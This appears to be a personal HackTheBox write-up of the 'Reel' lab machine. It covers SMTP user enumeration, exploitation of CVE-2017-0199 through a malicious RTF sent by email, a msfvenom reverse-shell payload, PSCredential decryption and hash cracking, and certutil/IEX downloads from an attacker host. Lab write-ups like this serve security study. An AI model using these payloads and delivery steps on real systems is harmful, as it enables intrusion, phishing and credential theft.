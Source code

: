 ### FTP
```bash
ftp $IP
```
exploit smtp with RTF object from readme.txt

`docx2txt AppLocker.docx`

### Get all ports
```bash
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

Open 10.129.1.151:22
Open 10.129.1.151:21
Open 10.129.1.151:25

### SMTP
##### SMTP user enumeration using RCPT and other commands
```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP

smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
```

Try User Enumeration using "RCPT TO". Replace <TARGET-DOMAIN> with the target's domain name:
```bash
hydra smtp-enum://10.129.1.151:25/rcpt -L "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" -o "/home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Active Directory/Reel/results/10.129.1.151/scans/tcp25/tcp_25_smtp_user-enum_hydra_rcpt.txt" -p $IP
```

##### Nmap script
```bash
nmap --script smtp-enum-users $IP -v -p 25
```

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|   RCPT, root
|   RCPT, admin
|   RCPT, administrator
|   RCPT, webadmin
|   RCPT, sysadmin
|   RCPT, netadmin
|   RCPT, guest
|   RCPT, user
|   RCPT, web
|_  RCPT, test

```bash
nmap -p 25 --script smtp-brute $IP -Pn
```

### Back to the ftp documents as above failed
```bash
❯ mv Windows\ Event\ Forwarding.docx WEF.docx
                                                                                                                                                                                            
❯ docx2txt WEF.docx
Failed to extract required information from <WEF.docx>!
                                                                                                                                                                                            
❯ exiftool WEF.docx
```

nico@megabank.com

### RTF cve
At the time of Reel’s release, there was a popular RTF exploit that was being used very commonly in broad-based attacks, CVE-2017-0199. The Metasploit module description does a good job explaining it at a high level:

Description: This module creates a malicious RTF file that when opened in vulnerable versions of Microsoft Word will lead to code execution. The flaw exists in how a olelink object can make a http(s) request, and execute hta code in response. This bug was originally seen being exploited in the wild starting in Oct 2016. This module was created by reversing a public malware sample.
##### without metasploit
0) Prepare the HTA payload with msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.13 LPORT=443 -f hta-psh > /tmp/alvin.hta` <- x86 make it harder to think about it.
1) Generate malicious RTF file
`python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.13/alvin.hta`
2) serve it
```bash
cd /tmp 
python3 -m http.server 80
```
3) Start toolkit in exploit mode to deliver local payload <- This won't work since it need the target path to be executed.
```bash XX
python cve-2017-0199_toolkit.py -M exp -t RTF -e http://10.10.16.13/alvin.hta -l /tmp/alvin.hta
```
  So we need to use the `gen` mode to send the email. https://github.com/A1vinSmith/CVE-2017-0199
  ```bash
  python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.13/alvin.hta
  ```
4) sendEmail
```bash
sendEmail -f foo@megabank.com -t nico@megabank.com -u "U hello" -m "M goodbye" -a invoice.rtf -s $IP -v
``` 

##### metasploit method 1 office_word_hta
##### metasploit method 2 meterpreter with Empire (offical writeup)

# Foothold
```
c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
* https://hashes.com/en/tools/hash_identifier
* https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
hashcat -m 12900 --force -a 0 tom.hash /usr/share/wordlists/rockyou.txt
```

a little offset invest
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```
```
000000000000000000000000000000000000000000000000000000038421854118412625768408160477112384218541184126257684081604771129b6258eb22fc8b9d08e04e6450f72b98725d7d4fcad6fb6aec4ac2a79d0c6ff738421854118412625768408160477112
```

### PSCredential is the better way to do it
PowerShell has a method for storing encrypted credentials that can only be accessed by the user account that stored them. To retrieve the credential and using it within a script, you read it from the XML file. We will use this method to get the user’s hash.

```
PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"

PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
```
```c:\ rev
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

### RunAs or ssh
`ssh tom@$IP`

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).
Maybe we should re-run Cypher query against other groups we've created.   

### Below follow the 0xdf writeup and ippsec video
```
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.exe 
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.ps1

PS>
IEX(New-Object Net.Webclient).downloadstring("http://10.10.16.13/SharpHound.ps1") Invoke-BloodHound -CollectionMethod All
```
BloodHound not working.

I'll just go with powerview.

`certutil -urlcache -f http://10.10.16.13/powerview.ps1 powerview.ps1`

### Root
Tom ACL -> Claire -> Backup admin
  
  https://0xdf.gitlab.io/2018/11/10/htb-reel.html#privesc-tom---claire
